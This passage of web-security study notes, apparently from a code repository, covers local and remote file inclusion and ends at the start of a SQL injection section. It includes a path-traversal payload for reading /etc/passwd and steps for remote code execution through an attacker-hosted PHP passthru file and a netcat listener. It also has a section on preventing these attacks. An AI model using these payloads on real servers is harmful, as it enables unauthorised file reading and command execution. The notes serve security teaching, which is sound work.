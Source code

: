 ### Local File Inclusion

Allows an attacker to read ANY file on the same server. Allows access of outside www folder. /etc/passwd contains all the users for the current os. Go back into the directories to find the above file. So if the url contains something like `page=include.php`, do something like `page=/../../../../../etc/passwd`. What this does is by instead of loading the specific file that was originally targeted, we can load something that it wasn't intending to load from the same server.

### Remote File Inclusion

If doing this on an actual server the file you want to access has to have a real IP or domain name.

1. create a php file with the following:

``` php
<?php

passthru("[command]");

?>
```

passthru executes system commands. For example use the netcat command as above.

Ensure this file is stored on a webserver that the target can access. Make sure the file extension is `.txt` not `.php` or it runs on your webserver.

1. Listen for connections. `nc -vv -l -p [port]`
2. Under the `page=` part paste the location of your php file. and add a ? to the end to exe as php eg. `page=[ip]/[file]?`

## Prevention of Web Server Exploits

The above only happens because the server allows it and is misconfigured.

1. File upload vulnerabilities 
    - Do not allow unsafe files to be uploaded.
    - If you are asking for an image ensure it is an image, never allow exe uploads.
    - Check the file type, not the extension.
2. Code exec vulnerabilities
    - Do'nt use dangerous functions,
    - Filter the input before execution
    - If you have to use function make sure you analyse the input before exec.
    - Use regular expressions (regex).
3. File inclusion vulnerabilties
    - Disable the allow_url_fopen and allow_url_include settings in php (in the /etc/php5/cgi/php.ini)
    - Use static file inclusion (hard code the files)

## SQL Injection and Attacks

Obligatory XKCD comic on SQL injection attacks:

[![Bobby Tables]({static img/exploits_of_a_mom.png})](https://xkcd.com/327/)

To connect to a mySQL database `mysql -u [username] -h [IP of server]`
